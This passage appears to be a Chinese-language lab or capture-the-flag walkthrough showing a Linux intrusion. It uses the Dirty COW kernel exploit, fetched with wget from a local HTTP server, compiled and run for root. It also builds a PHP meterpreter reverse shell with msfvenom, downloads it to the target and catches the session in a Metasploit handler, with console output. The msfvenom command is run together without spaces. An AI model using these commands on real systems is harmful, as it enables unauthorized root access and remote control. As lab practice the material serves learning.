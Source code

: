 **使用脏牛提权**

```
//搜索编译器
dpkg --list 2>/dev/null | grep compiler | grep -v decompiler 2>/dev/null
cp -v /usr/share/exploitdb/exploits/linux/local/40616.c .
'/usr/share/exploitdb/exploits/linux/local/40616.c' -> './40616.c'
python3 -m http.server # only run if you stopped the previous server
cd /tmp
wget -O cowroot.c http://192.168.1.10:8000/40616.c
gcc-5 cowroot.c -o cowroot -pthread
./cowroot
```

**使用 msf 反弹 shell**

为了更好的学习各种工具, 再次尝试使用 msf 来进行渗透, 首先。生成 php 反弹 shell

```
msfvenom-pphp/meterpreter/reverse_tcpLHOST=192.168.239.128 LPORT=5555 R > test3.php
```

**上传 shell**  

执行 wget 命令, 从远程下载 test3.php。

```
wget -q http://192.168.239.128/test3.php
```

**msf 启动监听模块**

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.239.128
LHOST => 192.168.239.128
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.239.128:5555
^C[-] Exploit failed [user-interrupt]: Interrupt
[-] exploit: Interrupted
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.239.128:5555
[*] Sending stage (39282 bytes) to 192.168.239.129
[*] Meterpreter session 2 opened (192.168.239.128:5555 -> 192.168.239.129:53692) at 2020-10-31 14:03:07 -0400
meterpreter >
```

**尝试提权 - 失败**  

使用 msf 自带的 local_exploit_suggester 模块进行提权, 未找到可用的建议, 提权失败。
